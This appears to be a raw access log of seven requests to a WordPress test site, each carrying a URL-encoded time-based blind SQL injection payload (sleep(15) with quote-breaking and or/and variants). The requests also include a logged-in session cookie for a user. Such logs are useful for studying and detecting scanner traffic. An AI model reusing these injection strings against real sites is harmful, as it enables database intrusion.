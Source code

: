 ```
18/Jul/2020:13:38:44 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen%27+where+0+in+%28select+sleep%2815%29+%29+--+/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=fact; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:44 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0%27+%2F+sleep%2815%29+%2F+%27,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=role; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:44 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen%22+where+0+in+%28select+sleep%2815%29+%29+--+/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=engine; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:44 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0%22+%2F+sleep%2815%29+%2F+%22,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=comparison; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:44 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen+or+0+in+%28select+sleep%2815%29+%29+--+/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=philosophy; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:44 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0+and+0+in+%28select+sleep%2815%29+%29+--+,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=discussion; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:45 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0%27+and+0+in+%28select+sleep%2815%29+%29+--+,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=football; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
```